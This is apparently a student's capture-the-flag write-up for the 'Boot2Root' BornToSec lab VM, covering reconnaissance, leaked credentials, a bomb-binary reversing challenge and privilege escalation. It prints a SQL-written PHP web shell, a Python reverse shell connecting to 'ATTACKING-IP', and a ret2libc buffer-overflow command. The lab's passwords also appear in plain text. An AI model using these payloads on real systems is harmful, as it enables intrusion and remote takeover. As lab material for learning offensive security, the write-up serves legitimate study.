

# Boot2Root

When we start the iso image we found this message

_There will be no visible IP address, and there’s a reason why..._

To get the Ip address i used "nmap" cause i used bridge, For a "Bridged" virtual network adapter, the host shares its physical adapters, i.e. the VM basically connects to the network like any other physical system. so i got my ip by ifconfig and then i scaned by netmask /24.

> nmap -A 10.12.100.0/24

I found this result and i got the Ip

```
Nmap scan report for 10.12.100.43
Host is up (0.00048s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hack me if you can
|_http-server-header: Apache/2.2.22 (Ubuntu)
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: ID OK listed have SASL-IR IDLE STARTTLS post-login more ENABLE LITERAL+ IMAP4rev1 capabilities Pre-login LOGIN-REFERRALS LOGINDISABLEDA0001
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
|_ssl-date: 2022-05-20T16:05:35+00:00; 0s from scanner time.
443/tcp open  ssl/http Apache httpd 2.2.22
|_http-title: 404 Not Found
|_http-server-header: Apache/2.2.22 (Ubuntu)
| ssl-cert: Subject: commonName=BornToSec
| Not valid before: 2015-10-08T00:19:46
|_Not valid after:  2025-10-05T00:19:46
|_ssl-date: 2022-05-20T16:05:35+00:00; 0s from scanner time.
993/tcp open  ssl/imap Dovecot imapd
|_imap-capabilities: ID OK have SASL-IR IDLE Pre-login post-login more ENABLE LITERAL+ IMAP4rev1 capabilities listed AUTH=PLAINA0001 LOGIN-REFERRALS
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
|_ssl-date: 2022-05-20T16:05:35+00:00; 0s from scanner time.
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

i tried brut forcing the url i found those url:

> /forum, /webmail, /phpmyadmin

in the forum i found login problem and logs repport in this log lmezard try to use this password *!q\]Ej?*5K5cy*AJ* i got the email `laurie@borntosec.net` from lmezard profil and i use it in webmail with the same password

`Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2`

in the box i found db access mail contain the user/password database _root/Fg-'kKXBj87E:aJ$_

```

Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

I used what we call php reverse shell i create a file in _/forum/templates_c_ and i execute on it my command

```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/tmp.php';
nc -l 80
https://url/forum/templates_c/tmp.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

this command let you use bash in this machine and then i found a file in /home/LOOKATME/password contain this password _lmezard:G!@M6f4Eatau{sF"_
now Use ftp to connect with this credentiels.

fun file :

```
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");
}
```

> MY PASSWORD IS: Iheartpwnage

Encode Sha256:

> 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

# Next Part

I use Cutter to diffuse the bomb i decompile the execute file

### Phase 1

```
08048b32      int32_t eax_1 = strings_not_equal(arg1, "Public speaking is very easy.")
08048b3c      if (eax_1 == 0)
08048b46          return eax_1
08048b3e      explode_bomb()
08048b3e      noreturn

```

the Result is `Public speaking is very easy.`

## Phase 2

in the begining there is a function _read_six_numbers_ check if there is 6 numbers and then check if the first one is number '1'

then the other number follow this suit sequence :

```
         tmp = (i + 1) * tab[i - 1];
         if ((tab)[i] != tmp)
             explode_bomb()
```

the result is `1 2 6 24 120 720`

## Phase 3

this part they checked if the first number < 7 if not explode bomb, there is sscanf with this format "%d %c %d".
we know the hint the second is letter b in hexa is 0x62

```
sscanf(s: arg1, format: "%d %c %d", &var_10, &var_9, &var_8)
.
.
.

08048c92      if (ebx.b == var_9)
08048c9f          return eax_1
```

in the switch case 2 ebx.b = 0x62 ("b")

```
08048c16          case 2
08048c16              ebx.b = 0x62
08048c1f              if (var_8 != 0x2f3)
08048c21                  explode_bomb()
08048c21                  noreturn
```

the result is `2 b 755`

## Phase 4

in the Phase 4 they checked if the return of func4 is equal to 55 the function4:

```
int func4(int agr1)
{
	int tmp;
	if (agr1 <= 1)
		tmp = 1;
	else
		tmp = func4(agr1 - 2) + func4(agr1 - 1);
	return tmp;
}
```

i use Scripts/function4.c and i got the result is : `9`

## Phase 5

This phase i try to create as C programm you can check phase 5 in Scripts folder.

the result is `opekma`

## Phase 6

In the first part in the function they check if numbers is < 6 and not repeating

```
08048e00      do
08048e00      {
08048dca          if ((*(int32_t*)(&var_1c + (edi << 2)) - 1) > 5)
08048dc7          {
08048dcc              explode_bomb();
08048dcc              /* no return */
08048dcc          }
08048dd1          int32_t ebx_1 = (edi + 1);
08048dd7          if (ebx_1 <= 5)
08048dd4          {
08048dd9              int32_t eax_3 = (edi << 2);
08048dfa              do
08048dfa              {
08048def                  if (*(int32_t*)(eax_3 + &var_1c) == *(int32_t*)(&var_1c + (ebx_1 << 2)))
08048dec                  {
08048df1                      explode_bomb();
08048df1                      /* no return */
08048df1                  }
08048df6                  ebx_1 = (ebx_1 + 1);
08048df6              } while (ebx_1 <= 5);
08048df7          }
08048dfc          edi = (edi + 1);
08048dfc      } while (edi <= 5);
```

and the next part we have a list struct like this

```
struct node {
    int val;
    int index;
    struct node *next;
};
```

they tried to fill the tab var_40 by the node list correspond to index

```
08048e42      do
08048e42      {
08048e10          void* esi_3 = &node1;
08048e13          int32_t j = 1;
08048e18          int32_t eax_5 = (i << 2);
08048e24          if (1 < *(int32_t*)(eax_5 + &var_1c))
08048e21          {
08048e26              int32_t eax_6 = *(int32_t*)(eax_5 + &var_1c);
08048e29              esi_3 = &node1;
08048e36              do
08048e36              {
08048e30                  esi_3 = *(int32_t*)((char*)esi_3 + 8);
08048e33                  j = (j + 1);
08048e33              } while (j < eax_6);
08048e34          }
08048e3b          var_40[i] = esi_3;
08048e3e          i = (i + 1);
08048e3e      } while (i <= 5);

```

the list values are :

node 1: 00fd 253

node 2: 02d5 725

node 3: 0000012d 301

node 4: 0000003e5 997

node 5: 000000d4 212

node 6: 000001b0 432

after the hint i try to sort those number and the result is `4 2 6 3 1 5`

`Publicspeakingisveryeasy.126241207202b7559opekmq426135`
10.30.181.172

# Thor

You found a file contain instructions i try to use [turttle logo online](https://turtleacademy.com/lessons/2)
i found this result this picture Contain 5 Letters S S L A H then a i used the [generator](https://word.tips/unscramble/SSlah/length/5/) i got this `SLASH`


encode Md5: `646da671ca01bb5d84dbb5fb2238dc8e`

# Zaz

In the Home there execute file `exploit_me` print the argument
but when the argument length more than 140 print `Segmentation fault (core dumped)`
buffer overflow.

```
A buffer overflow attack typically involves violating programming languages and overwriting the bounds of the buffers they exist on. Most buffer overflows are caused by the combination of manipulating memory and mistaken assumptions around the composition or size of data.
```


## Ret2libc

we used gdb to decompile the execute file



we retrieved the system address `p system`


now we need to find the _/bin/sh_ address:


Then we run the command : _./exploit_me $(python -c 'print "A"\*140 + "\x60\xb0\xe6\xb7" + "AAAA" + "\x58\xcc\xf8\xb7"')_


